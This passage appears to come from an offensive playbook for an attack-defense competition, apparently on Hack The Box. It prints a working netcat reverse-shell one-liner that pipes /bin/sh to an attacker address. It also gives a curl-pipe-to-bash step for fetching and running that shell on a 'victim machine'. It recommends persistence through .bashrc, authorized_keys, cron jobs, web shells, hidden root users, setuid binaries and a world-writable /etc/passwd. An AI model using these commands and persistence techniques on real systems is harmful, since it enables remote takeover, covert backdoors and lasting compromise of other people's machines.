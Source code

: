 Example is below:
~~~
shell.sh
~~~

~~~
touch /tmp/f; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&amp;1 | nc [ip address] [port] > /tmp/f
~~~

Doing this, you could readily call the script by just starting a web server which is helpful in case you have remote code execution access to target machines. I recommend using the built-in python HTTP server module when using it (as you can start a web server on a directory you want quite fast), then use curl to download and run it on a compromised machine.
~~~
#start python webserver
~~~

~~~
python -m SimpleHTTPServer <port>
~~~

~~~
#on victim machine
~~~

~~~
curl <ip address>:<port>/shell.sh | bash
~~~

### 2. Prepare a user shell script for backdoors and persistence

Similar idea with the script above, you can build a script that will give you backdoor and persistence on the victim machine. The script will lessen the time consumed when typing it normally on the command line, as well as chances of mistyping it. Doing this you could setup backdoors and persistence as fast as you can.

Depending on the privilege, for users, if available, I recommend adding your backdoor to files such as .bashrc, .ssh/authorized_keys and cronjobs. It is also helpful if you could implant backdoor web shells if your user has web privileges (e.g. www-data). Doing this not only will defenders spend some time finding what you have added, but also you will have different avenue to still have command execution in cases where shell has been killed.

### 3. Prepare a root shell script for backdoors, persistence and such

Gaining root access, you could punish the opposing team as you have a lot of options. **This also means that you own their current machine.**

With the current rules in place, **creativity is your limit provided that you won't do stuffs such as shutting down machines, changing the root password of machines and attacking processes/commands that are marked with `HTB=1` prefix**.

As you have root access, there are so many options available, below are just examples and just tip of the iceberg.

> Add your own multiple root users/accounts
> Setting different binaries to setuid (running will instantly give you root access): Setting permission of files that would give root access to world writeable (e.g. /etc/passwd, /root): Adding hidden root users
